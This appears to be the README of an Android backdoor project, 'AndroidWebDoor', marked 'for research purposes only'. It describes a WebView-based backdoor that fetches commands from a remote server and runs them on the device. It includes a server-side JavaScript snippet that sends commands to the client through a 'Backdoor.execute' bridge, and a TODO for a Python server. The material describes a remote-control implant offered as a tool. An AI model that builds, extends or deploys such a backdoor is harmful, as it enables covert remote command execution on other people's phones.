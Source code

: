 # AndroidWebDoor

For research purposes only !!

Minimalistic Android Backdoor based on a single webview which fetches and executes commands from a remoter server.
From Server's side, simply add javascript code that sends the command to the client:


<script type="text/javascript">
    function execCmd(cmd) {
        Backdoor.execute(cmd);
    }
</script>


TODO: Implement the server side code in python.
